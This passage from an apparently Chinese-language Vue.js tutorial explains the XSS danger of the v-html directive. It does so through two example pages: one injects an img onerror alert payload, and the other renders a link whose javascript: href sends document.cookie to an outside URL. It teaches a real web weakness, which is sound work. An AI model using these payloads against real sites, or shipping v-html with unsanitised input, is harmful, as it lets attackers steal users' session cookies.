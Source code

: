 ```vue
  <!-- 显示欢迎消息 -->
  <h2>欢迎，{{ name }}</h2>
  <div v-html="name"></div>
</div>

<script>
  var app = Vue.createApp({
    data() {
      return {
        name: ''
      };
    },
    methods: {
      submitForm() {
        // 这里假设用户输入的内容是恶意代码
        var maliciousCode = '<img src="x" onerror="alert(\'恶意代码注入\');">';

        // 模拟攻击：直接将恶意代码赋值给name变量
        this.name = maliciousCode;
      }
    }
  });

  app.mount("#app");
</script>
</body>
</html>

```

在这个示例中，用户可以输入姓名，并通过`v-model`指令将输入的内容绑定到`name`变量上。在提交表单时，我模拟了一个潜在的 XSS 攻击，将带有恶意代码的字符串赋值给`name`变量。由于使用了`v-html`指令将`name`变量的值渲染为 HTML，恶意代码将被解析并触发 `onerror` 事件，从而弹出一个警示框。

![image-20230614204619223](https://billy.taoxiaoxin.club/md/2023/06/6489b69b922ee4b834f0f2f0.png)

看完上面的例子,我们再来看个例子:

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>V-HTML 的陷阱</title>
    <script src="vue.js"></script>
</head>
<body>
<div id="box">
  {{mydangerhtml}}

  <div v-html="mydangerhtml"></div>
</div>
<script>
  var obj = {
    data(){
      return {
        mydangerhtml:`<a href=javascript:location.href='http://www.baidu.com?cookie?'+document.cookie>男人看了沉默,女人看了流泪</a>`,
      }
    }
  }
  var app = Vue.createApp(obj).mount("#box")
</script>
</body>
</html>
```